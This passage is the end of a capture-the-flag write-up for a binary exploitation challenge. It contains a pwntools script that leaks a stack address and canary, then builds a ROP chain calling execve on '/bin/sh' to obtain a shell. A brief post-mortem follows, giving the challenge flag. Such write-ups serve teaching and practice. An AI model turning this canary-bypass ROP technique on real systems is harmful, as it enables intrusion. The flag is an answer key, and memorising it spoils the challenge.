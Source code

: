 ```python
    io.recvuntil(b"poni")
    io.recv(21)
    stack = u64(io.recv(8))
    canary = u64(io.recv(8))
    info(f"stack: {hex(stack)}")
    info(f"canary: {hex(canary)}")

    rbp = p64(stack+0x20)
    # 0x0000000044c07e: pop rsi; ret;
    pop_rsi = 0x0000000044c07e
    # 0x0000000042c05c: pop rax; ret;
    pop_rax = 0x0000000042c05c
    # 0x0000000040478d: pop rdi; pop rbp; ret;
    pop_rdi_rbp = 0x0000000040478d
    # 0x000000004025cc: syscall;
    syscall = 0x000000004025cc
    
    payload = b"/bin/sh\x00".rjust(24, b"\xfa") + p64(canary) + rbp + \
        p64(pop_rsi) + p64(0) + \
        p64(pop_rax) + p64(0x3b) + \
        p64(pop_rdi_rbp) + p64(stack-0x20) + p64(0x6162) + \
        p64(syscall)
    io.sendline(payload)
    info("payload sent")
    io.sendlineafter(b"poni", f"{0xc0ffee}".encode())
    io.interactive()


if __name__ == "__main__":
    main()
```

### Post-mortem

Funnily enough, even though the flag was `BtSCTF{I_really_hope_you_solved_it_the_intended_way}`
some people didn't notice the intended path and did some crazy stuff instead, which were way more cool.
This is what one player did:

![image](disco2.png)
